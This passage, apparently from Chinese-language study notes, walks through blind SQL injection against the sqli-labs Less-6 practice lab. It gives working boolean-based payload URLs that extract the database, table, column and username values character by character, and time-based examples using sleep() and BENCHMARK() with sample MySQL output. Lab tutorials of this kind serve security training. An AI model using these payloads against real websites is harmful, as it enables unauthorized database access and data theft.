 获取数据库名长度
```mysql
http://go.go/sqli-labs/Less-6/?id=1" and length(database())=1 -- +
```
可以通过python脚本或者burp来跑

获取数据库名
```mysql
http://go.go/sqli-labs/Less-6/?id=1" and mid(database(),1,1)='s' -- +
```
可以通过字符串函数及其参数来更改payload拿到数据库名

获取表名
```mysql
http://go.go/sqli-labs/Less-6/?id=1" and mid((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1)='e' -- +
```
修改limit和mid的参数即可拿到数据

获取字段名
```mysql
http://go.go/sqli-labs/Less-6/?id=1" and mid((select column_name from information_schema.columns where table_schema='security' and table_name='users' limit 0,1),1,1)='i'-- +
```
获取数据
```mysql
http://go.go/sqli-labs/Less-6/?id=1" and mid((select username from user limit 0,1),1,5)='admin' -- +
```

ps:其实盲注用二分法比穷举快

#### 基于时间盲注
适用于对页面无变化，无法用布尔盲注判断的情况，一般用到函数 `sleep()` `BENCHMARK()`。

`sleep()`作用是用来延时
`benchmark()`其作用是来测试一些函数的执行速度。benchmark()中带有两个参数，第一个是执行的次数，第二个是要执行的函数或者是表达式。

时间盲注我们还需要使用条件判断函数if()
`if（expre1，expre2，expre3）` 当expre1为true时，返回expre2，false时，返回expre3

我只举一下例子
```mysql
mysql> select * from users where id =1 and if((substr((select user()),1,1)='r'),sleep(5),1);
Empty set (5.01 sec)

mysql> select * from users where id =1 and if((substr((select user()),1,1)='r1'),sleep(5),1);
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | Dumb     | Dumb     |
+----+----------+----------+
1 row in set (0.00 sec)

mysql> select * from users where id =1 and if((substr((select user()),1,1)='r'),BENCHMARK(20000000,md5('a')),1);
Empty set (5.15 sec)
```

